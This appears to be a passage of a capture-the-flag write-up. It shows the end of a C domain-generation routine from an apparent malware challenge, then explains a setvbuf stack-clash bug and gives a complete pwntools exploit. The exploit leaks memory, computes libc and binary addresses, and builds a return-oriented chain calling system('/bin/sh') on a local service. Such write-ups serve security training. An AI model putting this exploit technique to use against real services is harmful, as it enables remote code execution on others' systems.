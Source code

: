 ``` c
      y = rotr32(modConst1 * x, 5);
      z = y + modConst2;
      modFinal = z;
      domain[i++] = z % 25 + 97;
   }
   while (i < genLength);
 
   strcpy(&domain[i], ".mydns.webcam");
   return domain;
}
```
We need to know: **What is  the infection date?** I can not find the correct date and I don't have the flag. Poor me!

## Welcome
check init code, setvbuf was called setting stdin buffer to an arbitrary stack location. if you got deep enough with recursion this buffer will clash with your stack frame.


source: https://gist.github.com/anonymous/99aaebb12468c7cc8b8b08da27d37918

``` python
from pwn import *

r = remote("localhost", 11111)

libc = ELF("/lib32/libc.so.6")

r.sendlineafter("Option: ", "1")
r.sendafter("to encrypt: ", "a" * 0x100)
r.recvuntil("encrypt is: ")
leak = r.recv(0x100)

leak2 = ""
for c in leak:
    leak2 += chr(ord(c) ^ 0xde)

libc_base = u32(leak2[4:8]) - 1781159 + 8192
bin_base = u32(leak2[0x60:0x64]) - 12188
stack = u32(leak2[0x50:0x54])

info("libc: 0x%x" % libc_base)
info("bin: 0x%x" % bin_base)
info("stack: 0x%x" % stack)

for i in xrange(0, 128):
    r.sendlineafter("Option: ", "4")

r.sendlineafter("Option: ", "1")

payload = fit({8: [
# ebx
    bin_base + 12188,
# ebp
    0xcafebabe,
# system
    libc_base + libc.symbols['system'],
# exit
    bin_base + 0x690,
    libc_base + libc.vaddr_to_offset(next(libc.search('/bin/sh')))
]})

r.sendafter("to encrypt: ", payload.ljust(0x100))
r.interactive()
```
